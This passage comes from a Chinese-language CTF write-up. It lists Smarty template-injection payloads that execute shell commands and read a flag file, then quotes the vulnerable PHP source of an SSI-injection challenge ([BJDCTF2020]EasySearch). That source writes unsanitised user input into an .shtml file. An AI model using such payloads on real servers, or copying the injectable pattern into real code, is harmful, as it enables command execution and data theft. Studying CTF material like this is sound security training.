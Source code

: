 ```
{system('ls')}{system('cat index.php')}
```

每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

payload有很多：

```
{if show_source('/flag')}{/if}
{readfile('/flag')}
{if system('cat /flag')}{/if}
```

# 0x3A.[BJDCTF2020]EasySearch

>   SSI(Server Side Includes)注入漏洞

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
